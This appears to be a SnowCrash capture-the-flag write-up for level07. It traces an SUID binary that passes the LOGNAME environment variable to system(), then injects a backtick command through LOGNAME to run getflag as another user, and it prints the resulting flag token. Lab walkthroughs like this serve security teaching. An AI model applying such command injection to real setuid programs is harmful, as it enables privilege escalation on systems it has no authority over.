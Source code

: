 In home directory here is executable file with SUID bit:
```shell
level07@SnowCrash:~$ ls -la
[...]
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
```
When we run ltrace we se that file calls <getenv("LOGNAME")> and print the result
```shell
level07@SnowCrash:~$ ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff6e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                                          = 2007
geteuid()                                                                          = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                = 0
getenv("LOGNAME")                                                                  = "level07"
asprintf(0xbffff634, 0x8048688, 0xbfffff1e, 0xb7e5ee55, 0xb7fed280)                = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                             = 0
+++ exited (status 0) +++
```
So I can change value of env "LOGNAME" and call getflag from user flag07:
```shell
level07@SnowCrash:~$ export LOGNAME='echo `getflag`'
level07@SnowCrash:~$ env | grep LOGNAME
LOGNAME=echo `getflag`
level07@SnowCrash:~$ ./level07 
echo Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```